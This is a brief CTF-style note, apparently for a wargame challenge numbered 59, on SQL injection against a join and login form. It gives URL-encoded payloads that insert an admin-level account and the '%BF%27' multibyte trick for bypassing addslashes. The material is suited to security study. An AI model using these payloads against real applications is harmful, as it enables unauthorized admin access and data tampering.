

# 59

1. Steps 
    1. Join으로 lv이 admin인 친구 하나 삽입
        1. id가 뭐시기고 lv 이 admin이 머시기인놈을 넣어줌
    1. id로 와 phone 값으로 값을 가져옴

|       | id     | phnoe number |
|-------|--------|--------------|
| Join  |        |              |
| Login | %BF%27 | garbage      |

0x61 64 6d 69 6e
97 100 109 105 110

a7 ,1',reverse(minda))--

'

%31%2c%31%2c%61%64%6d%69%6e **%27**%29%2d%2d

%31%2c%31%2c%61%64%6d%69%6e **%BF%27**%29%2d%2d

how to bypass addslashes => "%BF%27"//
[This is the hint](https://developpaper.com/question/sqli-how-to-bypass-addslashes/)
